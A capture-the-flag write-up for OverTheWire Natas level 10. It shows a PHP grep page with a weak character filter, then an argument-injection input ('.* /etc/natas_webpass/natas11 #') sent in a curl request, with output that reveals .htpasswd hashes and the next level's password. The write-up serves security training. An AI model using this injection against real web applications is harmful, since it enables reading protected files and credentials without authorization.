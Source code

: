 # NATAS LEVEL 10

```
http://overthewire.org/wargames/natas/natas10.html
```

```
Username: natas10
Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
URL:      http://natas10.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

In this version of the dictionary grep app, we are warned that "For security
reasons, we now filter on certain characters". Let's examine the source..

```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

We see the check with `preg_match()` function against the `;`, `|` and `&`
characters to prevent us from terminating commands and appending our own in the
call to `passthru()`..  so we need to find a way to work with the `grep`
command to dump the contents of the password file.

In the previous level, we tried feeding the `grep` command the pattern `.*` to
dump the entire contents of `dictionary.txt`. What if we use the same command,
but instead use it to dump our password file by providing the input
`.* /etc/natas_webpass/natas11`? We can append a `#` at the end to mask out the
trailing `dictionary.txt` to avoid dumping that file as well by rendering it a
comment. So our `passthru()` should become..

```
  passthru("grep -i .* /etc/natas_webpass/natas11 # dictionary.txt");
```

```
$ curl 'http://natas10.natas.labs.overthewire.org/?needle=.*+%2Fetc%2Fnatas_webpass%2Fnatas11+%23&submit=Search' -H 'Authorization: Basic bmF0YXMxMDpuT3BwMWlnUUFrVXphSTFHVVVqem4xYkZWajd4Q056dQ=='
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas10", "pass": "nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu" };</script></head>
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
.htpasswd:natas10:$1$mRklUuvs$D4FovAtQ6y2mb5vXLAy.P/
.htpasswd:natas10:$1$SpbdWYWN$qM554rKY7WrlXF5P6ErYN/
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
